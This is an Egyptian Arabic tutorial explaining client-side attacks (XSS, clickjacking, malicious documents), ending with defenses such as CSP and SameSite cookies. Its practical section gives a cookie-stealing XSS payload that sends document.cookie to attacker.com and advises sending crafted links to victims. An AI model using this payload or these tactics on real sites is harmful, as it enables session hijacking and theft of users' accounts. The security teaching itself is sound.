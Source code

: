 ## **🔴 Client-Side Exploit – يعني إيه؟ ببساطة شديدة**

### **📌 1️⃣ يعني إيه Client-Side Exploit؟**

الـ **Client-Side Exploit** هو نوع من الهجمات اللي **بتستهدف المستخدم نفسه بدل ما تستهدف السيرفر**. يعني بدل ما الهاكر يحاول يختراق السيرفر مباشرة، **بيخدع المستخدم ويخليه هو اللي ينفذ الأكواد الضارة على جهازه أو في متصفحه**.

📌 **إيه اللي بيحصل في الهجوم؟**  
✅ المهاجم بيحط كود خبيث في موقع أو إعلان أو حتى في لينك.  
✅ المستخدم بيدخل الموقع أو يضغط على اللينك، والكود بيشتغل في المتصفح بتاعه.  
✅ المهاجم يقدر يسرق بياناتك، يغير محتوى الموقع، أو يخدعك تدخل بيانات حساسة.

---

### **💡 الخلاصة بالعامية:**

**الهاكر بدل ما يهاجم الموقع، بيهاجمك انت! بيحط كود خبيث في موقع أو لينك، وأول ما تفتحه، الكود يشتغل عندك ويسرق بياناتك.**

---

### **📌 2️⃣ أمثلة على Client-Side Exploits؟**

🔹 **هجوم XSS (Cross-Site Scripting) – أخطر وأشهر مثال!**

- المهاجم بيحط كود JavaScript خبيث في موقع، وأي حد يفتح الصفحة الكود بيشتغل عنده ويسرق بياناته.
- ممكن يسرق الـ **Cookies** بتاعتك عشان يدخل على حسابك في الموقع من غير ما يعرف الباسورد.

🔹 **Clickjacking – يخليك تضغط على حاجة من غير ما تاخد بالك!**

- بيحط زرار شفاف فوق زرار تاني، فتفتكر إنك بتضغط على حاجة لكن في الحقيقة انت بتنفذ أمر تاني خالص.
- مثال: تحس إنك بتضغط على زرار "تشغيل الفيديو"، لكن في الحقيقة انت بتبعت فلوس من حسابك!

🔹 **Malicious PDF or Word Files – ملفات خبيثة تسرق جهازك**

- المهاجم يبعت لك ملف PDF أو Word فيه كود خبيث، وأول ما تفتحه، الفيروس ينزل على جهازك.
- ممكن يسحب بياناتك أو ياخد صلاحيات على جهازك.

---

### **💡 الخلاصة بالعامية:**

**الهاكر بيحط أكواد خبيثة في مواقع، إعلانات، أو ملفات، وأول ما تفتحها، الكود يشتغل عندك ويسرق بياناتك أو يخدعك.**

---

### **📌 3️⃣ خطوات عملية لاستغلال Client-Side Exploits؟**

#### **🔍 1. استكشاف الثغرات (Reconnaissance)**

- جرب إدخال أكواد JavaScript في مدخلات الموقع عشان تشوف لو فيه XSS.
- استخدم أدوات زي **XSStrike** أو **Burp Suite** عشان تفحص الموقع.

#### **💣 2. استغلال الثغرة (Exploitation)**

- اكتب كود XSS زي:
    
    ```javascript
    <script>alert('Hacked!')</script>
    ```
    
- لو اشتغل، جرب تسرق الـ Cookies:
    
    ```javascript
    <script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
    ```
    

#### **🛠 3. خداع المستخدم (Social Engineering)**

- بعت لينك معدل فيه XSS عشان المستخدم يفتحه.
- استخدم Clickjacking عشان يخلي الضحية يضغط على حاجة غلط.

---

### **💡 الخلاصة بالعامية:**

**جرب تحط أكواد في مدخلات الموقع، لو قبلها يبقى فيه ثغرة. بعد كده، استغلها عشان تسرق بيانات المستخدمين أو تخدعهم.**

---

### **📌 4️⃣ إزاي تحمي نفسك من Client-Side Exploits؟**

🛑 **فعل Content Security Policy (CSP)**  
✅ بيمنع تشغيل الأكواد الغريبة في الموقع.

🔐 **استخدم SameSite Cookies**  
✅ بيحمي الجلسات من السرقة عبر XSS.

🚫 **امسح الـ JavaScript الضار من المدخلات**  
✅ استخدم **HTML escaping** عشان تمنع تشغيل الأكواد الغريبة.

🛡 **استخدم Web Application Firewall (WAF)**  
✅ بيكشف ويحظر الهجمات تلقائيًا.

---

### **💡 الخلاصة النهائية بالعامية:**

**امنع تشغيل الأكواد الغريبة، استخدم حماية للـ Cookies، راقب المدخلات، وفعل Firewall عشان تقفل الثغرات.** 🔥